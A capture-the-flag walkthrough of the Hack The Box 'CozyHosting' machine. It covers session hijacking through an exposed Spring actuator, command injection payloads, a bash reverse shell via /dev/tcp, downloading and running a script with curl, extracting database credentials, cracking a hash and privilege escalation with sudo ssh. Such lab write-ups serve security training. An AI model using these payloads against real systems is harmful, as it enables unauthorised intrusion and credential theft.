

# [CozyHosting](https://app.hackthebox.com/machines/cozyhosting)


```bash
nmap -p- --min-rate 10000 10.10.11.230 -Pn
```


After detection of open ports, let's do greater nmap scan here.

```bash
nmap -A -sC -sV -p22,80 10.10.11.230 -Pn 
```


From nmap scan result, `cozyhosting.htb` domain name is resolved to this ip address, that's why I add this record into `/etc/hosts` file.

While browsing web application, it returns such an web page.


From `tech stack`, I see that `Spring` application is, that's why I use specific wordlist while fuzzing for `directories`.

Let's do `Directory Enumeration` via `feroxbuster` command.
```bash
feroxbuster -u http://cozyhosting.htb -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt 
```


There's endpoint `/actuator/sessions` which shows current sessions and are so sensitive.

```bash
curl -s http://cozyhosting.htb/actuator/sessions | jq .
```


Let's use this session on web application via `JSESSIONID` key and refresht the webpage.


I am already on `Admin` dashboard.

I find this below feature where I can submit `IP Address` as hostname and username.


Let's see full HTTP request headers and body for this feauture.




Let's check `Command Injection` payloads for `username` parameter.

```bash
host=10.10.14.18&username=dr4ks;{ping,-c,1,10.10.14.18};
```


I can see this from `tcpdump` that `Command Injection` worked.


Now, I will do `Blind Command Injection`.


So, first I will create `.sh` file which contains `reverse shell` payload.

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.18/1337 0>&1
```


Now, I will open http.server as below.
```bash
python3 -m http.server --bind 10.10.14.18 8080
```


Third, I make a `Command Injection` payload which makes `curl` to my http.server to download `.sh` file.
```bash
host=localhost&username=dr4ks%3bcurl${IFS}http://10.10.14.18:8080/dr4ks.sh${IFS}-o${IFS}/tmp/dr4ks.sh
```


Now, it's time to run this malicious script as below.
```bash
host=localhost&username=dr4ks%3bbash${IFS}/tmp/dr4ks.sh
```


Hola!, I got reverse shell from port `1337`.


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```


I look at machine to find interesting stuff. I find `cloudhosting-0.0.1.jar` file on `/app` directory.


Let's download this and try to find sensitive info.

For this, I will open http.server to serve this file.
```bash
python3 -m http.server --bind 10.10.11.230 8080
```


I get this file from http.server via `wget` command.
```bash
wget http://10.10.11.230:8080/cloudhosting-0.0.1.jar
```


I look at this file via `jd-gui` which is `Java Decompiler`.


I find `PostgreSQL` credentials from `application.properties` file.

postgres: Vg&nvzAQ7XxR


Let's connect into `Postgre` Server.
```bash
PGPASSWORD='Vg&nvzAQ7XxR' psql -U postgres -h localhost
```


I find credentials from `users` table.


admin: $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm


Let's crack this hash via `hashcat`.

```bash
hashcat -m 3200 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```


admin: manchesterunited


I check this password for `josh` user.

user.txt


For `Privilege Escalation`, I just run `sudo -l` command to see privileges of this user.


I see `ssh` binary, I find `privesc payload` on [Gtfobins](https://gtfobins.github.io/gtfobins/ssh/#sudo).


root.txt

